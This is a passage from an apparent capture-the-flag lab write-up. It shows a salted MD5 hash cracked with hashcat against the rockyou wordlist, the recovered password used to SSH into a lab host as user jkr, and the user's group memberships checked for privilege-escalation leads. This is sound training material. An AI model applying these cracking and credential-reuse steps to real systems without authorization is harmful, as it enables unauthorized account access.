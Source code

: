 
### Hash Cracking with Hashcat

Preparing the hash file:

```bash
echo '62def4866937f08cc13bab43bb14e6f7:5a599ef579066807' > hash
```

Cracking (mode 20 = md5($salt.$pass)):

```bash
hashcat -m 20 -a 0 hash /usr/share/wordlists/rockyou.txt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200">
        <i class="fas fa-unlock mr-2 text-green-500"></i>
        <strong>Password Found:</strong> <code class="bg-green-200 dark:bg-green-800 px-2 py-1 rounded font-mono">raykayjay9</code>
    </p>
</div>

## 🔑 Phase 4 — SSH Access and User Flag

### SSH Connection

Attempting connection with discovered credentials:

```bash
ssh jkr@10.10.10.138
```

**Password:** `raykayjay9`

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        SSH connection successful\!
    </p>
</div>

### Access Validation

```bash
id
```

<div class="bg-gray-100 dark:bg-gray-800 p-4 rounded-lg my-4 font-mono text-sm">
    <div class="text-gray-700 dark:text-gray-300">
        uid=1000(jkr) gid=1000(jkr) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)
    </div>
</div>

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-exclamation-triangle mr-2 text-amber-500"></i>
        <strong>Important Observation:</strong> The user belongs to the <code>50(staff)</code> group, a non-standard group that warrants investigation.
    </p>
</div>
